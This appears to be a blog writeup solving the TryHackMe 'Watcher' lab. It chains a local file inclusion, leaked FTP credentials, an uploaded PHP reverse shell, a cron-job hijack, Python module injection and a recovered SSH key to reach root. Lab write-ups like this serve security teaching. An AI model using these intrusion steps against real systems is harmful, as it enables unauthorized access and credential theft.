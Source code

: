 ```yaml
---
layout: post
title: THM Watcher - Writeup
date: 2025-09-20 16:58 -0400
categories: ["Writeup"]
tags: ["thm","lfi","web"]
---
```


In this occasion we will be solving TryHackMe's room
URL: https://tryhackme.com/room//assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher

## recon
```shell
# Nmap 7.94SVN scan initiated Fri Sep 19 15:47:51 2025 as: nmap -sCV --min-rate=1500 -n -p- --open --max-retries=1 -oA /tmp//assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher -vv 10.201.75.132
Host: 10.201.75.132 ()	Status: Up
Ports: 
	21/open/tcp//ftp//vsftpd 3.0.5/, 
	22/open/tcp//ssh//OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)/, 
	80/open/tcp//http//Apache httpd 2.4.41 ((Ubuntu))
```

Now we start inspecting the web application hosted in the machine using Nuclei.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919.png)

From the output we can see 2 interesting paths, accessing, we can retrieve the first flag here `flag_1.txt`, the second path is protected but lets keep this path for later.

```
/flag_1.txt
/secret_file_do_not_read.txt
```
**Local File Inclusion**
Inspecting the post section we can test for Local File Inclusion, a simple test confirms this.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-1.png)

```
#passwd file
root:x:0:0:root:/root:/bin/bash
will:x:1000:1000:will:/home/will:/bin/bash
mat:x:1002:1002:,#,,:/home/mat:/bin/bash
toby:x:1003:1003:,,,:/home/toby:/bin/bash
ubuntu:x:1004:1005:Ubuntu:/home/ubuntu:/bin/bash
```
**Available users**
```
root
will
mat
toby
ubuntu
```
Now we access the protected path and we can see the contents of the text file

```bash
/var/www/html/secret_file_do_not_read.txt
```

Here, we retrieve the FTP credentials, and also take note on where are the files are being stored after uploading.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-2.png)

```
ftpuser:givemefiles777
```
## Remote code Execution

using FTP upload a php reverse shell, we have the path where this will be placed /home/ftpuser/ftp/files, and after this we can access the reverse shell via the LFI vulnerability as follows.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-3.png)

Got a reverse shell as www-data user

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-4.png)

Proceed to find the third flag: flag_3.txt

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-5.png)

flag_4.txt

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-6.png)
## Privilege Escalation

means user www-data can switch to user toby without password so, lets execute the following

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-7.png)

```
sudo -u toby bash
```

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250919-8.png)

Examining with pspy we can see user uid 1002 (mat) is executing a cronjob every minute.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920.png)

Proceed to edit the job cow.sh with a reverse shell and receive a reverse shell as mat.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-1.png)

Get flag_5.txt here.

From mat user check sudo rights, we can see that a script can impersonate will, so let's dig into this.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-2.png)

We have write permissions over cmd.py file, so edit this and include the following lines:

```python
import os
os.system("/bin/bash")
```

Resulting the final file like this.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-3.png)

Now execute the script to escalate privileges

```bash
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py "1"
```

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-4.png)

Inside /opt/backups we can see a key.b64 file, which contains a base64 data encoded.

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-5.png)
Decode the file and save it on you host machine, assign permissions to 0400.


![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-8.png)

Finally, use the private key to ssh into the system. Get the last flag here.

```bash
ssh -i key root@$IP
```

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-6.png)

![](/assets/img/posts/2025-09-20-thm-watcher-writeup/Watcher-20250920-7.png)
